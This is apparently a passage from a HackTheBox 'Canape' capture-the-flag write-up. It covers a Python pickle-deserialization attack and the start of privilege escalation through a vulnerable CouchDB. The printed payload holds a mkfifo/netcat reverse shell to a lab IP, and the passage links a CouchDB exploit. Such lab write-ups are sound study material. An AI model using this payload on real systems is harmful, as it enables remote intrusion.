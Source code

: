 ```python
requests.post('http://canape.htb/submit', data = {'character':character,'quote':quote})
requests.post('http://canape.htb/check', data={'id':checksum})
```

Running it gives me this string:

```
$ python2 rce.py
cposix
system
p1
(S'homer*; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f'
p2
tp3
Rp4
.
```

The reason we split the string by `*` is because of the weird string it generates. Running this gives us a shell:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot read the user's flag yet.&#x20;

### CouchDB --> User Creds

The user was called `homer`, and they were running some processes:

{% code overflow="wrap" %}
```
www-data@canape:/$ ps -elf | grep homer
4 S homer       610    606  0  80   0 - 162335 -     02:03 ?        00:01:01 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```
{% endcode %}

CouchDB was being run on the machine, and it is running a vulnerable version.&#x20;

{% embed url="https://www.exploit-db.com/exploits/44913" %}
